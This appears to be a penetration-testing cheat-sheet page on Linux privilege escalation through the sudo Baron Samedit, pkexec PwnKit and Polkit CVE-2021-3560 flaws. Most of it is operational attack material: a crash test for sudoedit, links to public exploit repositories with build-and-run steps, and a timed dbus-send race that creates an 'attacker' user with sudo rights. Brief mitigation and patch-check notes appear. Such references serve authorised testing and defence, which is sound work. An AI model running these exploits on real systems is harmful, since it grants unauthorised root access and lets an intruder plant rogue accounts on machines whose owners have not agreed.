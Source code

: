 ## Baron Samedit (CVE-2021-3156)

Heap buffer overflow, affects any unpatched version of the sudo program from 1.8.2-1.8.31p2 and 1.9.0-1.9.5p1

{% code fullWidth="false" %}
```bash
# Check if vulnerable
sudoedit -s '\' $(python3 -c 'print("A"*1000)')
# If shows corruption, dump, aborted means it is vulnerable. If it is patched, it will show usage: sudoedit
https://github.com/blasty/CVE-2021-3156
make
# list targets:
./sudo-hax-me-a-sandwich
# run:
./sudo-hax-me-a-sandwich <target_number>

https://github.com/worawit/CVE-2021-3156
```
{% endcode %}

## Pwnkit (CVE-2021-4034)

{% code overflow="wrap" fullWidth="true" %}
```
It is an authentication system. It is vulnerable if pkexec binary is present and version is prior to the patch

https://github.com/ly4k/PwnKit/tree/main
https://github.com/arthepsy/CVE-2021-4034
https://github.com/berdav/CVE-2021-4034

Add to Pwnkit (berdav exploit) the fact we need make and pkexec binaries on the target.
Just clone repo, zip it, upload it to the target, unzip it, use make and run the exploit.

Mitigation -> upgrade the system, if not possible at least remove SUID bit from pkexec binary
System is patched if when the ./exploit is executed, the pkexec help is shown.
```
{% endcode %}

## Polkit (CVE-2021-3560)

Following distros, among others, are vulnerable:

* Red Hat Enterprise Linux 8
* Fedora 21 (or later)
* Debian Testing ("Bullseye")
* Ubuntu 20.04 LTS ("Focal Fossa"), last vulnerable version is `0.105-26ubuntu1`

{% code overflow="wrap" fullWidth="true" %}
```bash
https://github.com/secnigma/CVE-2021-3560-Polkit-Privilege-Esclation
# Manual explotation, first we need to know how long it will take the program to run (note real time)
time dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts org.freedesktop.Accounts.CreateUser string:attacker string:"Pentester Account" int32:1
# Then interrupt the execution halfway, i.e. if real time was 11 ms use 5 ms
dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts org.freedesktop.Accounts.CreateUser string:attacker string:"Pentester Account" int32:1 & sleep 0.005s; kill $!
# Then check if that user has sudo permissions and if so, it worked and we just need to add a hashed password for it
```